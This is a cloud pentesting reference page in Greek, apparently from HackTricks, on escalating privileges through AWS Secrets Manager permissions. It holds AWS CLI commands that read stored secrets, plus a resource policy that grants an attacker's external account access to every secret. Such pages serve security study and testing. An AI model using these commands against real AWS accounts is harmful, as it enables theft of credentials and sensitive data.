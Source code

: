 # AWS - Secrets Manager Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Secrets Manager

Για περισσότερες πληροφορίες σχετικά με το secrets manager δείτε:

{{#ref}}
../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### `secretsmanager:GetSecretValue`

Ένας attacker με αυτήν την άδεια μπορεί να αποκτήσει την **αποθηκευμένη τιμή μέσα σε ένα secret** στο AWS **Secretsmanager**.
```bash
aws secretsmanager get-secret-value --secret-id <secret_name> # Get value
```
**Πιθανός Αντίκτυπος:** Πρόσβαση σε ευαίσθητα δεδομένα εντός AWS Secrets Manager.

> [!WARNING]
> Σημειώστε ότι ακόμη και με την άδεια `secretsmanager:BatchGetSecretValue`, ένας επιτιθέμενος θα χρειαστεί επίσης την `secretsmanager:GetSecretValue` για να ανακτήσει τα ευαίσθητα μυστικά.

### `secretsmanager:GetResourcePolicy`, `secretsmanager:PutResourcePolicy`, (`secretsmanager:ListSecrets`)

Με τις προηγούμενες άδειες είναι δυνατό να **παραχωρηθεί πρόσβαση σε άλλους principals/accounts (ακόμη και εξωτερικούς)** ώστε να έχουν πρόσβαση στο **μυστικό**. Σημειώστε ότι για να **διαβαστούν μυστικά κρυπτογραφημένα** με ένα KMS key, ο χρήστης χρειάζεται επίσης να έχει **πρόσβαση στο KMS key** (περισσότερες πληροφορίες στη [KMS Enum page](../aws-services/aws-kms-enum.md)).
```bash
aws secretsmanager list-secrets
aws secretsmanager get-resource-policy --secret-id <secret_name>
aws secretsmanager put-resource-policy --secret-id <secret_name> --resource-policy file:///tmp/policy.json
```
policy.json:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<attackers_account>:root"
},
"Action": "secretsmanager:GetSecretValue",
"Resource": "*"
}
]
}
```
{{#include ../../../banners/hacktricks-training.md}}
